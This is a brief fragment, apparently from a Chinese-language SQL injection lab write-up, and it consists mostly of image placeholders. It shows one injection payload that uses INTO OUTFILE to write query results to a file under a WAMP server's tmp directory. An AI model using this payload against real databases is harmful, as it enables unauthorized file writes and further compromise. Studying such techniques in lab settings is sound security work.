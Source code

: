 ![image](img/f5446d6815dcff640dfb1e11f5305d59.png)

直接构造语句

```
1' into outfile 'c:\\wamp64\\tmp\\1.txt'  -- a 
```

![image](img/ffaa25f14935f1a98574fc92f4c45899.png)
